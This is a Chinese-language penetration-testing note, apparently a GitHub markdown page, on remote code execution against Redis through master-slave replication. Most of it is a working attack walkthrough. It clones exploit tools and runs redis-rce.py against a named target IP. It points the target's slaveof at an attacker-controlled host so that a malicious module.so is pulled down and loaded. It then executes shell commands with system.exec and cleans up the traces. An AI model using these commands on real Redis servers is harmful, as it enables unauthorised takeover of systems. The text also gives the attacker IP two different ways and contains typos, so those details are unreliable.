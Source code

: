 ### Redix主从复制RCE
如果将数据存贮在单个Redis实例中, 当读写数据量加大, 服务端很难承受. Redis提供了主从模式, 使用一个Redis实例作为主机, 其他实例作为备份机. 其中, 主机和从机数据相同, **从机只负责读, 主机只负责写**, 通过读写分离可以大幅度减轻流量的压力, 通过空间换取效率. 
基于Redis主从复制的机制，可以通过FULLRESYNC将任意文件同步到从节点（slave）. 在Redis4.x 之后, 新增了模块功能, 使用c语言编译外部扩展`.so`文件, 并利用*从机的同步功能*加载到目标redis, 可以实现在redis中执行一个新的redis命令. 这就使得它可以轻易实现以上任何一种漏洞利用方式, 而且存在着更多的可能性, 等待被探索.
#### 漏洞利用
1. 手动编译so扩展文件
```shell
cd /root/
git clone https://github.com/puckiestyle/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand
make
```
2. 脚本利用漏洞
https://github.com/puckiestyle/RedisModules-ExecuteCommand
https://github.com/Ridter/redis-rce
	- -r/-p 目标ip/端口
	- -L/-P 攻击方ip/端口
	- -f    file加载文件, 默认exp.so
	- -v    详细描述
	- -a    redis密码
https://github.com/Dliv3/redis-rogue-server
https://github.com/vulhub/redis-rogue-getshell
```shell
# 下载redis-rce工具
cd /root/
git clone https://github.com/Ridter/redis-rce
cd redis-rce
# 使用redis-rce, 连接并上传module.so
python3 -m pip install -r requitement.txt
cp /root/RedisModules-ExecuteCommand/module.so ./module.so
python3 redis-rce.py -r 47.104.255.11 -p 6379 -L 127.71.45.28 -P 8899 -f modules.so
# 通过未授权连接, 命令执行
redis-cli -h 47.104.255.11 -p 6379
config get dir
config get dbfilename
system.exec "id"
```

#### 脚本原理
```shell 
python3 redis-rce.py -r 47.104.255.11 -p 6379 -L 124.71.45.28 -P 8899 -modules.so
```
1. 连接目标47.104.255.11的6379端口redis服务
2. 发送配置主从模式的命令到目标redis服务
```shell
slaveof 124.71.45.28 8899
config set dbfilename module.so

# 监听124.71.45.28:8899为redis主机
# 目标机(从机)从主机(124.71.45.28)复制数据库内容(被rce代理为modules文件)保存到本地文件module.so
```
3. 目标机器加载`module.so`扩展模块
```
MODULE LOAD ./module.so
```
4. 执行模块中携带的system命令
```
system.exec "id"
```
5. 恢复数据, 卸载相关文件
```
config set dbfilename dump.rdb
system.exec "rm ./module.so"
module unload system
```
